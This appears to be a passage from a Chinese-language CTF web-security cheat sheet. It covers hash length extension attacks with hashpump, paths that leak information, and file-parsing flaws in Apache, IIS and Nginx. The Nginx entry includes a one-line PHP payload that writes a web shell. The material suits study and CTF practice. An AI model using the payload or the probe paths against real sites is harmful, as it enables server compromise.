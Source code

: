 

## Length Extension Attack

- 很多hash算法都可能存在此攻击，例如`md5`, `sha1`, `sha256`...
- 主要是因为他们都使用Merkle-Damgard hash construction
- 会依照64 Byte分组，不足会padding
    - 1 byte的`0x80`+一堆`0x00`+8 bytes的`长度`
- IV是写死的，且每一组输出结果会当下一组的输入
- 攻击条件： (这里md5换成sha1, sha256...也通用)
    - 已知`md5(secret+message)`
    - 已知`secret长度`
    - 已知`message内容`
- 符合三个条件就能构造`md5(secret+message+padding+任意字符串)`
- 工具 - hashpump
    - 基本用法：
        1. 输入`md5(secret+message)`的值
        2. 输入`message`的值
        3. 输入`secert长度`
        4. 输入要加在后面的字符串
        5. 最后会把`md5(secret+message+padding+任意字符串)`和`message+padding+任意字符串`喷给你


# 其它

 - Information leak
     - .git / .svn
     - robots.txt
     - /.well-known
     - .DS_Store
     - .htaccess
     - .pyc
     - server-status
     - crossdomain.xml
     - admin/ manager/ login/ backup/ wp-login/ phpMyAdmin/
     - xxx.php.bak / www.tar.gz / xxx.php.swp / xxx.php~ / xxx.phps
     - /WEB-INF/web.xml
 - 文件解析漏洞
     - Apache
         - shell.php.ggininder
     - IIS
         - IIS < 7
             - a.asp/user.jpg
             - user.asp;aa.jpg
     - Nginx
         - nginx < 8.03
             - `cgi.fix_pathinfo=1`
             - Fast-CGI开启状况下
             - kaibro.jpg: `<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>`
             - 访问`kaibro.jpg/.php`生成shell.php
